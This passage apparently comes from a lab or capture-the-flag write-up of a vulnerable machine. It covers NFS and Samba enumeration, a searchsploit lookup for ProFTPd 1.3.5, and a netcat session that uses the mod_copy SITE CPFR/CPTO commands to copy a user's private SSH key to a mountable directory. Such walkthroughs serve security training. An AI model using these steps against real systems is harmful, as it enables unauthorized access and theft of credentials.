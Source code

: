 ```bash
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

nfs scan:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```
Shows `/var` can be mounted via nfs.

##### Samba
Connect:
```bash
smbclient //<ip>/anonymous
```

Recursive download:
```bash
smbget -R smb://<ip>/anonymous
```
This gave a `log.txt` with some information about usernames, ssh key locations and the ftp service.

#### Searchspoilt
```bash
searchsploit proftp 1.3.5 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------ ---------------------------------

searchsploit -p linux/remote/36742.txt
```
`linux/remote/36742.txt` shows an example of using nc and ProFTPd 1.3.5 to copy files to different locations on the system.

#### Exploitation

##### Netcat -> ProFTPd File copy
We know the location of the ssh key from `log.txt` and a nfs location of `/var`.

```bash
nc <ip> 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<ip>]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
